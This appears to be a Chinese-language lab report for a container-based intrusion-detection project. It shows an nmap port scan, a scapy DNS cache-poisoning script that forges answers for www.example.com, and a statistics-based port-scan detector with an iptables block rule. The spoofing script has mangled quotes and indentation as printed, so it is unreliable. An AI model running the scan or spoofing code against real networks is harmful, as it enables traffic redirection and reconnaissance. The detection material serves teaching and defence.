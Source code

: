 ### 1.4 端口扫描
#### 相关容器：

* 攻击者容器A
    * IP：`10.9.0.1`
* 服务器容器B
    * IP：`10.9.0.5`

#### 攻击步骤：

在容器A上安装nmap程序，再从容器A通过nmap命令

```shell
nmap 10.9.0.1 -p1-200
```

实现从容器A扫描容器B的1到200端口。

### 1.2 DNS Poisoning

####相关容器：

* 攻击者容器A
    * IP：`10.9.0.1`
* 服务器容器B
    * IP：`10.9.0.5`
* 本地DNS
    * IP：`10.9.0.11`
####攻击步骤：
在容器A运行DNS Poisoning攻击程序，代码如下：

```python
#!/usr/bin/env python3 
from scapy.all import * 

def spoof_dns(pkt): 
      if (DNS in pkt and ’www.example.com’ in pkt[DNS].qd.qname.decode(’utf-8’)): 
      IPpkt = IP(dst=pkt[IP].src, src=pkt[IP].dst) 
      UDPpkt = UDP(dport=pkt[UDP].sport, sport=53) 
      Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type=’A’, ttl=259200, rdata=’10.0.2.5’) 
      DNSpkt = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1, qdcount=1, ancount=1, an=Anssec) 
      spoofpkt = IPpkt/UDPpkt/DNSpkt 
      send(spoofpkt) 

f = ’udp and dst port 53’ 
pkt = sniff(iface=’br-43d947d991eb’, filter=f, prn=spoof_dns) 
```

当容器B运行dig指令

```shell
dig www.example.com
```

向DNS服务器申请www.example.com的IP时会被容器A监听并将错误IP返回给容器B污染容器B的DNS缓存，从而当容器B访问www.example.com时会直接跳转到错误的IP 10.0.2.5。

### 2.2 IDS框架

![Image text](../struct.png)

### 2.6 基于统计的扫描检测与防御

主要函数为`Statistic`以及`Port_Scan_Protect`

通过分析构造出来的端口扫描报文可以看出，端口扫描攻击往往都是同一个IP向受害者IP的不同端口发送TCP报文从而达到攻击效果。

因此，为了检测端口扫描，我们首先构造字典`IP_port`，在其中每个IP映射一个列表，列表中存放该IP向本机发送报文的目的端口。当某个IP对应列表的数量超过阈值100时，即判断该IP在向本机进行端口扫描，进而发出警报。
若为在线检测，则配置防火墙，对来自该IP的报文进行拦截，配置防火墙命令如下：

```shell
iptables -A INPUT -s src_IP -j DROP
```
